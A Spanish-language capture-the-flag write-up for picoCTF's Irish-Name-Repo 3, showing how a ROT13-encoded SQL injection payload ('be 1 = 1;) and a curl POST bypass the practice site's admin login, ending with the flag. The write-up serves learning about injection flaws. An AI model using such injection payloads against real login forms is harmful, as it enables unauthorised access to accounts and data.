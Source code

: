 ## Objetivo 

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

---
## Datos de acceso al nivel 

http://jupiter.challenges.picoctf.org:29132/

---
## Solución 
primero accedemos a la pagina que es similar a la de los retos Irish-Name-Repo 1 y Irish-Name-Repo 2 en el apartado de login 

![[Pasted image 20231009204741.png]]

como podemos ver ahora solo queda presente el campo de contraseña pero al igual que en los retos anteriores debemos buscar el recuadro oculto 

![[Pasted image 20231009204904.png]]

ya que tenemos eso nos topamos con el siguiente problema y es que si intentamos poner como contraseña 
``` 
'or 1 = 1;
```

aparecerá lo siguiente 

![[Pasted image 20231009205040.png]]

para corregir esto debemos hacer uso de [CyberChef (gchq.github.io)](https://gchq.github.io/CyberChef/) y rotar la contraseña con rot 13

![[Pasted image 20231004111514.png]]
como podemos ver nos arroja el siguiente resultado 

``` bash
'be 1 = 1;
```

ahora debemos usarlo como contraseña para que nos de la flag 

![[Pasted image 20231009205330.png]]

**Resultado Final**
```
picoCTF{3v3n_m0r3_SQL_06a9db19}
```

---
## Notas Adicionales 
Al igual que en los retos anteriores se pude llegar hasta la flag con el siguiente comando en la linea de comando 
```bash
curl https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password='be 1 = 1;&debug=1"
```

---
## Referencias 
[ROT13 - CyberChef (gchq.github.io)](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=J29yIDEgPSAxOw)
[SQL Injection (w3schools.com)](https://www.w3schools.com/sql/sql_injection.asp)
